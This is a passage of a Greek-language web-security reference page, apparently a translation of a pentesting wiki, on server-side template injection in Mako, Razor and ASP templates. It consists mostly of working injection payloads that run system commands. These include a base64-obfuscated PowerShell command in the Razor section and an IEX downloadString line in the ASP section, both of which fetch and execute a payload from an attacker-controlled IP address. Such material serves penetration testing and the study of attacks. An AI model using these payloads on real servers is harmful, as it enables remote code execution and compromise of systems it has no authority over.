 {% content-ref url="jinja2-ssti.md" %}
[jinja2-ssti.md](jinja2-ssti.md)
{% endcontent-ref %}

Άλλες payloads στο [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2)

### Mako (Python)
```python
<%
import os
x=os.popen('id').read()
%>
${x}
```
**Περισσότερες πληροφορίες**

* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#mako](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#mako)

### Razor (.Net)

* `@(2+2) <= Επιτυχία`
* `@() <= Επιτυχία`
* `@("{{code}}") <= Επιτυχία`
* `@ <=Επιτυχία`
* `@{} <= ΣΦΑΛΜΑ!`
* `@{ <= ΣΦΑΛΜΑ!`
* `@(1+2)`
* `@( //C#Code )`
* `@System.Diagnostics.Process.Start("cmd.exe","/c echo RCE > C:/Windows/Tasks/test.txt");`
* `@System.Diagnostics.Process.Start("cmd.exe","/c powershell.exe -enc IABpAHcAcgAgAC0AdQByAGkAIABoAHQAdABwADoALwAvADEAOQAyAC4AMQA2ADgALgAyAC4AMQAxADEALwB0AGUAcwB0AG0AZQB0ADYANAAuAGUAeABlACAALQBPAHUAdABGAGkAbABlACAAQwA6AFwAVwBpAG4AZABvAHcAcwBcAFQAYQBzAGsAcwBcAHQAZQBzAHQAbQBlAHQANgA0AC4AZQB4AGUAOwAgAEMAOgBcAFcAaQBuAGQAbwB3AHMAXABUAGEAcwBrAHMAXAB0AGUAcwB0AG0AZQB0ADYANAAuAGUAeABlAA==");`

Η μέθοδος `.NET` `System.Diagnostics.Process.Start` μπορεί να χρησιμοποιηθεί για να ξεκινήσει οποιαδήποτε διαδικασία στον διακομιστή και έτσι να δημιουργήσει ένα webshell. Μπορείτε να βρείτε ένα παράδειγμα ευάλωτης εφαρμογής ιστού στο [https://github.com/cnotin/RazorVulnerableApp](https://github.com/cnotin/RazorVulnerableApp)

**Περισσότερες πληροφορίες**

* [https://clement.notin.org/blog/2020/04/15/Server-Side-Template-Injection-(SSTI)-in-ASP.NET-Razor/](https://clement.notin.org/blog/2020/04/15/Server-Side-Template-Injection-\(SSTI\)-in-ASP.NET-Razor/)
* [https://www.schtech.co.uk/razor-pages-ssti-rce/](https://www.schtech.co.uk/razor-pages-ssti-rce/)

### ASP

* `<%= 7*7 %>` = 49
* `<%= "foo" %>` = foo
* `<%= foo %>` = Τίποτα
* `<%= response.write(date()) %>` = \<Ημερομηνία>
```xml
<%= CreateObject("Wscript.Shell").exec("powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.11:8000/shell.ps1')").StdOut.ReadAll() %>
```
**Περισσότερες Πληροφορίες**
